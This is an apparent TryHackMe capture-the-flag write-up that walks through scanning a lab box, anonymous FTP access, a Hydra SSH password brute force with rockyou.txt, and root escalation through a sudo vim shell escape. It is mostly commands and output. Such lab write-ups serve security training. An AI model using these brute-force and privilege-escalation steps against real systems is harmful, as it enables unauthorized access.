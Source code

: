 
https://tryhackme.com/room/easyctf

BoxIP = 10.10.11.239

**Basic Enumeration**

        ┌──(root💀kali)-[/home/kali/simple]
    └─# rustscan --ulimit 5000 -b 250 -a 10.10.11.239 -- -A


    PORT     STATE SERVICE REASON         VERSION
    21/tcp   open  ftp     syn-ack ttl 63 vsftpd 3.0.3
    | ftp-syst: 
    |   STAT: 
    | FTP server status:
    |      Connected to ::ffff:10.9.2.110
    |      Logged in as ftp
    |      TYPE: ASCII
    |      No session bandwidth limit
    |      Session timeout in seconds is 300
    |      Control connection is plain text
    |      Data connections will be plain text
    |      At session startup, client count was 1
    |      vsFTPd 3.0.3 - secure, fast, stable
    |_End of status
    | ftp-anon: Anonymous FTP login allowed (FTP code 230)
    |_Can't get directory listing: TIMEOUT
    80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
    |_http-title: Apache2 Ubuntu Default Page: It works
    | http-robots.txt: 2 disallowed entries 
    |_/ /openemr-5_0_1_3 
    | http-methods: 
    |_  Supported Methods: GET HEAD POST OPTIONS
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    2222/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)


Okay we have a few things to start looking at: FTP anonymous, a web server with a robots.txt and SSH (most likely for later)

**FTP Anonymous**

    ftp> ls -la
    200 PORT command successful. Consider using PASV.
    150 Here comes the directory listing.
    drwxr-xr-x    3 ftp      ftp          4096 Aug 17  2019 .
    drwxr-xr-x    3 ftp      ftp          4096 Aug 17  2019 ..
    drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 pub
    226 Directory send OK.
    ftp> cd pub
    250 Directory successfully changed.
    ftp> ls -la
    200 PORT command successful. Consider using PASV.
    150 Here comes the directory listing.
    drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 .
    drwxr-xr-x    3 ftp      ftp          4096 Aug 17  2019 ..
    -rw-r--r--    1 ftp      ftp           166 Aug 17  2019 ForMitch.txt
    226 Directory send OK.
    ftp> get ForMitch.txt

Alright we have a file that we can now take a look at and potententially a user name: Mitch

    ┌──(root💀kali)-[/home/kali/simple]
    └─# cat ForMitch.txt 
    Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!



Well that is good news for us, but bad news for this company culture...

If the password is weak... lets see if we can hydra into the ssh with rockyou.txt and mitch as the user

    ┌──(root💀kali)-[/home/kali/simple]
    └─# hydra -l mitch -P /usr/share/wordlists/rockyou.txt 10.10.11.239 ssh -s 2222                    255 ⨯
    Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-08-24 13:03:55
    [WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
    [DATA] attacking ssh://10.10.11.239:2222/
    [2222][ssh] host: 10.10.11.239   login: mitch   password: secret

And we can now get onto the server, wow this is a simple box...

    Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190
    $ whoami
    mitch
    $ pwd 
    /home/mitch
    $ id
    uid=1001(mitch) gid=1001(mitch) groups=1001(mitch)
    $ ls -la
    total 36
    drwxr-x--- 3 mitch mitch 4096 aug 19  2019 .
    drwxr-xr-x 4 root  root  4096 aug 17  2019 ..
    -rw------- 1 mitch mitch  178 aug 17  2019 .bash_history
    -rw-r--r-- 1 mitch mitch  220 sep  1  2015 .bash_logout
    -rw-r--r-- 1 mitch mitch 3771 sep  1  2015 .bashrc
    drwx------ 2 mitch mitch 4096 aug 19  2019 .cache
    -rw-r--r-- 1 mitch mitch  655 mai 16  2017 .profile
    -rw-rw-r-- 1 mitch mitch   19 aug 17  2019 user.txt
    -rw------- 1 mitch mitch  515 aug 17  2019 .viminfo
    $ cat user.txt
    G00d j0b, keep up!
    $ 
We got the user flag now lets do some priveEsc

**PrivEsc**

    $ sudo -l
    User mitch may run the following commands on Machine:
        (root) NOPASSWD: /usr/bin/vim


Looks like we have an easy privesc with vim using GTFO bins


    $ sudo vim -c ':!/bin/sh'
    # whoami
    root


    # cd /root
    # ls -la
    total 28
    drwx------  4 root root 4096 aug 17  2019 .
    drwxr-xr-x 23 root root 4096 aug 19  2019 ..
    -rw-r--r--  1 root root 3106 oct 22  2015 .bashrc
    drwx------  2 root root 4096 aug 17  2019 .cache
    drwxr-xr-x  2 root root 4096 aug 17  2019 .nano
    -rw-r--r--  1 root root  148 aug 17  2015 .profile
    -rw-r--r--  1 root root   24 aug 17  2019 root.txt
    # cat root.txt
    W3ll d0n3. You made it!


All done! This is a fun little snack
